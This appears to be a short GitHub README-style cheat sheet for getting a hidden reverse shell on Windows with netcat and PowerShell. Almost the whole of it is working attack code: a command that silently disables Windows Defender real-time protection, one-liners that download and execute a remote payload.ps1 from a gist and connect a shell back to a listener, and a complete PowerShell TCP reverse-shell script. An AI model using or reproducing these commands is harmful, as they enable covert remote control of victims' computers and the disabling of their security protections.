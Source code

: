 # Using NetCat

## Hidden PowerShell for Windows
### Server side
```bash
nc -lp 80
```
### Client side

- Disable windows defender
```ps1
powershell -w hidden start powershell -A 'Set-MpPreference -DisableRea $true' -V runAs
```

- Load the script and listen on the ip and port numbers specified
```ps1
powershell -w hidden "IEX(IWR https://gist.githubusercontent.com/virejdasani/22573dcff0186f1b711613eb6de906ae/raw/76a062b356b3e2846f3625f1cb3ec6430621f840/payload.ps1 -UseBasicParsing); Invoke-ConPtyShell 192.168.29.21 80"
```

## Script
- Change the ip address in the "quotes" and the port (80)
```ps1
$client = New-Object System.Net.Sockets.TCPClient("192.168.29.21",80);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + "PS " + (pwd) + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```
https://gist.githubusercontent.com/virejdasani/22573dcff0186f1b711613eb6de906ae/raw/76a062b356b3e2846f3625f1cb3ec6430621f840/payload.ps1

--------------------
--------------------
--------------------

## Non-Hidden
```ps1
IEX(IWR https://gist.githubusercontent.com/virejdasani/22573dcff0186f1b711613eb6de906ae/raw/76a062b356b3e2846f3625f1cb3ec6430621f840/payload.ps1 -UseBasicParsing); Invoke-ConPtyShell 192.168.29.21 80
```



## From this video
https://www.youtube.com/watch?v=A2JNBpUotZM

## Original Script
https://github.com/davidbombal/hak5
